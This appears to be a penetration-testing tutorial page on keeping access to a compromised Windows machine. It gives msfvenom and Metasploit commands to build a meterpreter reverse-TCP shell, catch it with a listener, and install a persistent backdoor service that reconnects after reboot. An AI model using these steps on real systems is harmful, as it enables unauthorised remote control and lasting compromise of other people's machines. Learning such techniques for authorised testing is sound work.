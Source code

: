 # Maintaining Access

### Introduction

There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.

There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for now.

***

### Generating a Payload w/ msfvenom

1. `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe` this will generate a basic windows meterpreter reverse tcp shell
2. Transfer the payload from your attacker machine to the target machine.
3. `use exploit/multi/handler` - this will create a listener on the port that you set it on.
4. Configure our payload to be a windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp`
5. After setting your IP address as your "LHOST", start the listener with run
6. Executing the binary on the windows machine will give you a meterpreter shell back on your host - let's return to that
7. Verify that we've got a meterpreter shell, where we will then `background` it to run the persistence module.

***

### Run the Persistence Module

1. `use exploit/windows/local/persistence` this module will send a payload every 10 seconds in default however you can set this time to anything you want
2. `set session 1` set the session to the session that we backgrounded in meterpreter (you can use the sessions command in metasploit to list the active sessions)&#x20;

<figure><img src="../../../../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to windows/meterpreter/reverse\_tcp allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.

<figure><img src="../../../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Here you can see the session die however the second we run the handler again we get a meterpreter shell back thanks to the persistence service.

There are other ways of maintaining access such as adding users and rootkits.

***
